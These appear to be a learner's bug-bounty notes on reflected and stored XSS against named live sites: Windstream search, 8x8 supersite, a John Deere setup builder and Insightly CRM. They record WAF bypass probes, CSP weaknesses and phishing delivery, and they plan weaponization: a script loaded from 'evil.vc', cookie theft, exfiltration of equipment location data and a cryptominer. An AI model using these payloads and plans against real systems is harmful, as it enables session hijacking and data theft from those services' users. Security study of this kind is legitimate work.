 # Client-Side Injections Part II Notes

## Reflected & Stored XSS

### Reflected Attack Vectors




"Windstream net" most commonly refers to Windstream.net, which is the webmail service for Windstream customers, and is also the company's general internet service portal. Windstream is the parent telecommunications company, while Kinetic by Windstream is the brand name for its internet, phone, and TV services. 

Business to Business & Business to Customer

https://search.windstream.net/serp?q=rs0n&context=home (Multiple Places Being Rendered)
https://search.windstream.net/preferences?q=rs0n (Only 1 place being rendered, JSON Object)
- Authentication - NO (does not appear to have auth)
- WAF - YES - Cloudflare
    - https://search.windstream.net/serp?q=%3Cscript%3Ealert(1)%3C/script%3E&context=home
        - Removing script tags = no block
        - <>alert(1) = no block
        - <scruipt>alert(1) = no block
        - <img src=x onerror=alert(1)> = block
    - `/error_log` & `/wp-includes` = 403 Block
- Client-Side Validation - NO
- Output Encoding - YES
    - <title>&lt;rs0n&gt; - Windstream Web Search</title>
        - Typical
    - var session_payload = {"domain_key": "search_search.windstream.net_udog", "query": "\u003crs0n\u003e", "search_session_id": "mobxcksn3w6bdkpkz8dooa8v"};
        - Unicode
    - <a href="/serp?qc=images&amp;q=%3Crs0n%3E&amp;sc=xVZrh1F6zlST10">Images</a>
        - Hex
    - value="&lt;klsjdlkfjslkdjflksdjflkjsdlfkjsdf&gt;" (SEARCH BAR AT TOP)
        - Typical
    - <strong>No search results were found for &quot;&lt;klsjdlkfjslkdjflksdjflkjsdlfkjsdf&gt;&quot;</strong>
        - Typical
- Content Security Policy - NO (do not see one now, no headers in response to search)
- Notes
    - https://search.windstream.net/serp?q=rs0n&context=home&sc=rs0n
        - `sc` param = 400 response
- Victim
    - Who is the Victim?
        - Windstream users (single customer b2c)
        - Windstream users (company b2b)
        - Windstream employees/admins
    - How are we delivering the payload?
        - Payload in URL GET Parameter, delivered via Phishing
- How to weaponize
    - 







Unified Communication Platform: Whether it's voice calls, video conferencing, messaging, or collaboration tools, 8×8 brings all these functions together, creating a seamless experience for users.

Business to Business

https://supersite.8x8.com/8x8/Demo/login.php?destination=rs0n"
- Authentication - YES
- CSP 
    - default-src 'self'; 
        - Fallback - will be overwritten, highly restrictive
    - script-src *.vc *.8x8.com netutildevel.ddns.net 'unsafe-eval' 'unsafe-inline'; 
        - Inject inline javascript = execute
    - connect-src 'self'; 
        - Cannot exfil data w/ API Calls
    - img-src server.arcgisonline.com chart.googleapis.com 'self'; 
        - Cannot exfil to evil server
        - Can we register something on these domains?
    - style-src 'unsafe-inline' *.8x8.com netutildevel.ddns.net ;base-uri 'self';
        - May be able to execute XSS
        - Maybe exfil data w/ url()
    - form-action 'self' ; 
        - Cannot use forms to exfil data
    - object-src *.8x8.com netutildevel.ddns.net;
        -  
    - frame-src *.8x8.com *.vc  netutildevel.ddns.net; 
        - Can register *.vc
    - media-src *.8x8.com netutildevel.ddns.net; 
        - 
    - frame-ancestors *.8x8.com *.vc  netutildevel.ddns.net
        - 
- Output Encoding
    - `>` turns into `&gt;`
    - `"` does not get modified/encoded, however it does not get processed in the DOM as well
- CSRF - 
- Cookie Flags
    - PHPSESSID=i189tta2o3u6jggclrugfejud3
        - httpOnly
- Victim
    - Who is the Victim?
        - Someone who has a valid account for supersite.8x8.com
        - Ideally has higher priviledges than free account (if you can get a free account)
    - How are we delivering the payload?
        - Payload in URL GET Parameter, delivered via Phishing
- How to weaponize
    - Register malicious .vc site
    - Host malicious script on *.vc
    - <script src="evil.vc/exploit.js">
    - Complex JS file -> Gather data leveraging victim's session
        - Overwite `Document.body` w/ Loading Screen
        - HTTP Requests fuzz for endpoints/valid responses
        - Setup database and API
        - As HTTP requests get valid responses, full response sent to my db/API
    - Exfil data through gaps in CSP


### Stored Attack Vectors

https://setup-builder.deere.com/
- Client-Side Validation
    - rs0n<> = `Please remove invalid characters: <, >`
    - 
- Cookie Flags
    - `/session`
        - jwt-external-access-token
            - Might be used to form idx cookie for oauth
            - no httpOnly
        - client
            - Used in larger session validation flow
            - httpOnly
    - `https://signin.johndeere.com/api/v1/sessions/me`
        - idx
            - httpOnly
- Content Security Policy (CSP) 
    - base-uri 'self';

    - connect-src 'self' http://s3.amazonaws.com/grower-ops-translations/ https://s3.amazonaws.com/grower-ops-translations/ http://s3.amazonaws.com/grower-ops-translations-prod/ https://s3.amazonaws.com/grower-ops-translations-prod/ *.google-analytics.com https://assets.adobedtm.com https://edge.adobedc.net somni.deere.com https://adobedc.demdex.net https://icons-cdn.deere.com https://translations-cdn.deere.com *.johndeere.com *.deere.com ws://localhost:* http://localhost:* https://*.browser-intake-datadoghq.com https://browser-intake-datadoghq.com *.googleapis.com *.deere.com:*;
    - default-src 'self' *.gstatic.com *.googleapis.com;
    - font-src 'self' data: https://cdn.ux.deere.com fonts.gstatic.com;
    - frame-ancestors 'self' *.deere.com:* *.johndeerecloud.com *.johndeere.com;
    - frame-src 'self' *.deere.com:* *.johndeerecloud.com *.johndeere.com http://setup-builder.deere.com;
    - img-src * data:;
    - manifest-src https://cdn.ux.deere.com;
    - script-src 'self' 'unsafe-inline' 'unsafe-eval' *.googleapis.com google-analytics.com https://assets.adobedtm.com https://edge.adobedc.net somni.deere.com https://adobedc.demdex.net *.deere.com *.johndeerecloud.com http://localhost:* *.googleapis.com;
    - style-src 'self' 'unsafe-inline' *.googleapis.com http://localhost:*;
    - worker-src 'self'
- Server-Side Validation
    - "fileName":"rs0n<>.zip" = `<>` stripped from name before stored in DB
- Output Encoding
    - Virtual DOM w/ React
- Who is the victim?
    - Has a valid account
    - *Farmer, Farm Operator, Equipment Manager, etc.
        - RBAC: Staff Member, Operator, Partner Organization, Dealer
    - They have higher permissions then our account 
- How is the payload delivered?
    - Typical use of application
    - Victim will navigate to page where payload is rendered in the DOM
- How is the attack vector weaponized?
    - Host a complex script
        - Steal the jwt-external-access-token cookie
        - Modify existing data or settings
        - Exfil data about specific farm equipment settings, especially location
        - Cryptominer









https://crm.na1.insightly.com
- Client-Side Validation
    - No. of Employees: rs0n = `This value must be a number between -2147483648 and 2147483647`
- Server-Side Validation
    - No. of Employees: rs0n = same as client-side validation
- Content Security Policy (CSP)
    - `/home` frame-ancestors https://*.insightly.com 'self'
- CSRF
    - __RequestVerificationToken - httpOnly
- Cookie Flags
    - InsightlyApps (session token) - httpOnly







## DOM-Based XSS & CSPP

